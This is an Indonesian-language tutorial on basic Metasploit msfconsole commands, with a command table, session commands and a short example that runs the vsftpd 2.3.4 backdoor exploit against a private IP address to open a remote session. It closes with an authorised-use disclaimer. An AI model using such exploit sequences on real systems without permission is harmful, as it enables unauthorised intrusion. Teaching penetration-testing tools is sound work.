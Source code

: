 # Perintah Dasar MSFconsole (Metasploit Console)

## A. Pengantar

`msfconsole` adalah antarmuka CLI utama dalam Metasploit Framework. Untuk bisa menggunakan Metasploit secara efektif, penting untuk menguasai perintah-perintah dasarnya.

## B. Menjalankan `msfconsole`:

```
msfconsole
```

Setelah dijalankan, kamu akan masuk ke CLI Metasploit:

```
msf6 >
```

## C. Daftar Perintah Dasar yang Wajib Diketahui

| Perintah | Fungsi |
|:--:|:--:|
| `help` atau `?`	| Menampilkan semua perintah yang tersedia |
| `search <keyword>` | Mencari `exploit`, `payload`, `auxiliary`, `dll` |
| `use <nama_modul>` | Memilih modul tertentu untuk digunakan |
| `info` |	Menampilkan informasi detail dari modul yang sedang dipilih |
| `show options` | Menampilkan parameter yang bisa diatur pada modul |
| `set <parameter> <nilai>` |	Mengatur parameter (contoh: `RHOSTS`, `LHOST`, `PAYLOAD`) |
| `unset <parameter>`	| Menghapus nilai parameter yang telah diatur |
| `show payloads	`| Menampilkan semua payload yang kompatibel |
| `show exploits`	| Menampilkan semua exploit yang tersedia |
| `show auxiliary` | Menampilkan modul bantu seperti scanner |
| `exploit` atau `run` | Menjalankan modul exploit |
| `back` | Kembali ke menu utama dari modul |
| `exit` atau `quit` | Keluar dari msfconsole |

## D. Contoh Penggunaan Sederhana:

```
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
show options
set RHOSTS 192.168.1.10
set LHOST 192.168.1.5
exploit
```

## E. Perintah Session

Jika exploit berhasil, biasanya akan membuka session:

| Perintah | Fungsi |
|:--:|:--:|
| `sessions` | Menampilkan daftar sesi aktif |
| `sessions -i <id>`	| Masuk ke session yang aktif |
| `background`	| Menyimpan session ke latar belakang |
| `sessions -k <id>` | Menghentikan session tertentu |

## Tips Tambahan

- Gunakan `tab` untuk auto-complete.
- Gunakan `Ctrl + C` untuk menghentikan exploit yang sedang berjalan.
- Gunakan `jobs` dan `kill <id>` untuk melihat dan menghentikan job background.

> Gunakan hanya untuk pembelajaran dan pada sistem yang kamu punya izin untuk uji coba.
